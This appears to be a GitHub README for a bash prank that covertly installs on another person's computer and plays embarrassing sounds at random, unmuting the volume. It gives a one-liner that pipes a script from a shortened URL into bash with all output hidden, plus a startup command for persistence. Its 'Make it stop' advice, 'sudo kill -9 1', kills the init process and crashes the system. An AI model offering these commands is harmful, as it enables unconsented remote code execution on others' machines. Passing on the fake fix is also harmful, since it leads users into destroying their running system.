 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

##Startup Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown $!
```

## Removal Instructions ##
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
I recommend:
```bash
sudo kill -9 1
```